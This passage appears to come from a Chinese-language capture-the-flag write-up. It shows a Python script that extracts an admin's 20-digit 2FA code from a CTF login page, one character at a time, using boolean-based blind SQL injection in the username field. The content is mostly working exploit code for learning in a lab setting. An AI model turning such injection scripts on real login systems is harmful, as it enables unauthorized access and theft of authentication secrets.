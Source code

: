 ```python
            time.sleep(0.05)

    except requests.exceptions.RequestException as e:
        print(f"\n連線錯誤: {e}")
        break
```

得到長度是 20
接下來可以一個一個去爆

```=py
import requests
import string
import time

URL = "http://login-screen.ctftime.uk:36368/index.php"
CHARSET = string.digits 
PASSWORD = "guest"
result = ""

for i in range(1, 21):
    found_char = False
    for char in CHARSET:
        payload = f"guest' AND (SELECT SUBSTR(code, {i}, 1) FROM users WHERE username='admin') = '{char}' -- "
        data = {
            "username": payload,
            "password": PASSWORD
        }
        try:
            r = requests.post(URL, data=data, timeout=10)
            if r.history:
                result += char
                print(f"第 {i} 個字元: {char}")
                print(f"目前Ans: {result}")
                found_char = True
                break
            else:
                time.sleep(0.05)
        except requests.exceptions.RequestException as e:
            print(f"連線錯誤: {e}")
            exit(1)
    if not found_char:
        print(f"沒字元了")
        break
if result:
    print(f"\nSUCCESS")
    print(f"2FA Code: {result}")
else:
    print("\nFAIL")
```
